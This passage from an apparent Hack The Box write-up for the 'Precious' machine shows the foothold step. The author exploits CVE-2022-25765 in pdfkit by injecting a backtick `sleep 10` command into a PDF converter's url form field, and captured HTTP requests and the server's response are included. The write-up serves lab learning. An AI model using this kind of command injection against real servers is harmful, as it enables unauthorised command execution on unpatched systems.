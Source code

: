 > At this point, I did a google search for "pdfkit exploit".
> The first result was a **github repo with a big fat spoiler for this HTB box** 😱 As soon as I saw the word "Precious" I hastily closed the tab like a kid whose parents had just walked-in on them watching explicit materials.
>
> Since HTB is about learning, let's <u>instead look at the second result from that google search</u> (Snyk report, linked below)



## FOOTHOLD

Snyk Vulnerability DB has a page describing CVE-2022-25765: https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795
This seems to be a likely candidate, since we already know the site is using ruby-on-rails and a vulnerable version of pdfkit.

I tried catching the POST request from `precious.htb` using burp:

```
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://precious.htb
DNT: 1
Connection: close
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

url=http%3A%2F%2F10.10.14.7%3A8000%2Findex.html
```

Then I changed the request body to contain the PoC code from CVE-2022-25765 (I changed it to 10 seconds, because my connection is quite bad: 10s stands out a lot more than 5s).

```
url=http%20`sleep 10`%3A%2F%2F10.10.14.7%3A8000%2Findex.html
```



Hmm. Maybe it worked? the server seemed to wait about ten seconds before replying with its "bad URL" message:

```
HTTP/1.1 200 OK
[ ... ]
<body>
    <div class="wrapper">
        <h1 class="title">Convert Web Page to PDF</h1>
        <form action="/" method="post">
            <p>Enter URL to fetch</p><br>
            <input type="text" name="url" value="">
            <input type="submit" value="Submit">
        </form>
        <h2 class="msg">You should provide a valid URL!</h2>
    </div> 
</body>
</html>
```
